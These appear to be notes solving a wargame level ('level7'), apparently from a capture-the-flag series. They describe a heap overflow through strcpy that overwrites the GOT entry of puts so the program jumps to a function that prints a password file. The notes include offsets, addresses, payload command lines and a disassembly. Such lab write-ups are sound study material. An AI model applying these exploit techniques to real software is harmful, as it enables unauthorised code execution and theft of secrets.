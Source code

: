 - attack: buffer overflow using GOT + format string exploitation
- binary behavior: segfault without or with 1 parameter, ~~ with 2 parameters
- targeted functions: m and main
- vulnerability in m: strcpy() in comparison to strncpy() has no limitimg argument
- defense: 

Method: send address of fopens (after secdons strcpy) to the function m with printf
- find the overflow offset for first strcpy
- check it - correct offset will put paypload into second strcpy after overflowing

- find the address of 'puts' function in GOT
- find the address of m function

- write in GOT 'm' address instead of 'puts' address 
- enter to the m function
- 'm' will execute printf with varibale pass


Info:
- offset size - 20
- 8049928 - address of puts in GOT
- same in hex - \x28\x99\x04\x08

- 080484f4 - address of m function
- same in hex - \xf4\x84\x04\x08

Code:
objdump -d ./level7
ltrace ./level7 a b
ltrace ./level7 a0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
ltrace ./level7 $(python -c 'print "b" * 20 + "\x28\x99\x04\x08"') 
./level7 $(python -c 'print "b" * 19 + "\x28\x99\x04\x08"')  $(python -c 'print "\xf4\x84\x04\x08"')
./level7 $(python -c 'print "b" * 20 + "\x28\x99\x04\x08"')  $(python -c 'print "\xf4\x84\x04\x08"')


Functions


08048521 <main>:
 8048521:       55                      push   %ebp
 8048522:       89 e5                   mov    %esp,%ebp
 8048524:       83 e4 f0                and    $0xfffffff0,%esp
 8048527:       83 ec 20                sub    $0x20,%esp
 804852a:       c7 04 24 08 00 00 00    movl   $0x8,(%esp)
 8048531:       e8 ba fe ff ff          call   80483f0 <malloc@plt>
 8048536:       89 44 24 1c             mov    %eax,0x1c(%esp)
 804853a:       8b 44 24 1c             mov    0x1c(%esp),%eax
 804853e:       c7 00 01 00 00 00       movl   $0x1,(%eax)
 8048544:       c7 04 24 08 00 00 00    movl   $0x8,(%esp)
 804854b:       e8 a0 fe ff ff          call   80483f0 <malloc@plt>
 8048550:       89 c2                   mov    %eax,%edx
 8048552:       8b 44 24 1c             mov    0x1c(%esp),%eax
 8048556:       89 50 04                mov    %edx,0x4(%eax)
 8048559:       c7 04 24 08 00 00 00    movl   $0x8,(%esp)
 8048560:       e8 8b fe ff ff          call   80483f0 <malloc@plt>
 8048565:       89 44 24 18             mov    %eax,0x18(%esp)
 8048569:       8b 44 24 18             mov    0x18(%esp),%eax
 804856d:       c7 00 02 00 00 00       movl   $0x2,(%eax)
 8048573:       c7 04 24 08 00 00 00    movl   $0x8,(%esp)
 804857a:       e8 71 fe ff ff          call   80483f0 <malloc@plt>
 804857f:       89 c2                   mov    %eax,%edx
 8048581:       8b 44 24 18             mov    0x18(%esp),%eax
 8048585:       89 50 04                mov    %edx,0x4(%eax)
 8048588:       8b 45 0c                mov    0xc(%ebp),%eax
 804858b:       83 c0 04                add    $0x4,%eax
 804858e:       8b 00                   mov    (%eax),%eax
 8048590:       89 c2                   mov    %eax,%edx
 8048592:       8b 44 24 1c             mov    0x1c(%esp),%eax
 8048596:       8b 40 04                mov    0x4(%eax),%eax
 8048599:       89 54 24 04             mov    %edx,0x4(%esp)
 804859d:       89 04 24                mov    %eax,(%esp)
 80485a0:       e8 3b fe ff ff          call   80483e0 <strcpy@plt>
 80485a5:       8b 45 0c                mov    0xc(%ebp),%eax
 80485a8:       83 c0 08                add    $0x8,%eax
 80485ab:       8b 00                   mov    (%eax),%eax
 80485ad:       89 c2                   mov    %eax,%edx
 80485af:       8b 44 24 18             mov    0x18(%esp),%eax
 80485b3:       8b 40 04                mov    0x4(%eax),%eax
 80485b6:       89 54 24 04             mov    %edx,0x4(%esp)
 80485ba:       89 04 24                mov    %eax,(%esp)
 80485bd:       e8 1e fe ff ff          call   80483e0 <strcpy@plt>
 80485c2:       ba e9 86 04 08          mov    $0x80486e9,%edx
 80485c7:       b8 eb 86 04 08          mov    $0x80486eb,%eax
 80485cc:       89 54 24 04             mov    %edx,0x4(%esp)
 80485d0:       89 04 24                mov    %eax,(%esp)
 80485d3:       e8 58 fe ff ff          call   8048430 <fopen@plt> # opens password
 80485d8:       89 44 24 08             mov    %eax,0x8(%esp)
 80485dc:       c7 44 24 04 44 00 00    movl   $0x44,0x4(%esp)
 80485e3:       00
 80485e4:       c7 04 24 60 99 04 08    movl   $0x8049960,(%esp)
 80485eb:       e8 d0 fd ff ff          call   80483c0 <fgets@plt>
 80485f0:       c7 04 24 03 87 04 08    movl   $0x8048703,(%esp)
 80485f7:       e8 04 fe ff ff          call   8048400 <puts@plt>
 80485fc:       b8 00 00 00 00          mov    $0x0,%eax
 8048601:       c9                      leave
 8048602:       c3                      ret


 080484f4 <m>:
 80484f4:       55                      push   %ebp
 80484f5:       89 e5                   mov    %esp,%ebp
 80484f7:       83 ec 18                sub    $0x18,%esp
 80484fa:       c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 8048501:       e8 ca fe ff ff          call   80483d0 <time@plt>
 8048506:       ba e0 86 04 08          mov    $0x80486e0,%edx
 804850b:       89 44 24 08             mov    %eax,0x8(%esp)
 804850f:       c7 44 24 04 60 99 04    movl   $0x8049960,0x4(%esp)
 8048516:       08
 8048517:       89 14 24                mov    %edx,(%esp)
 804851a:       e8 91 fe ff ff          call   80483b0 <printf@plt>
 804851f:       c9                      leave
 8048520:       c3                      ret

 08048400 <puts@plt>:
 8048400:       ff 25 28 99 04 08       jmp    *0x8049928
 8048406:       68 28 00 00 00          push   $0x28
 804840b:       e9 90 ff ff ff          jmp    80483a0 <_init+0x34>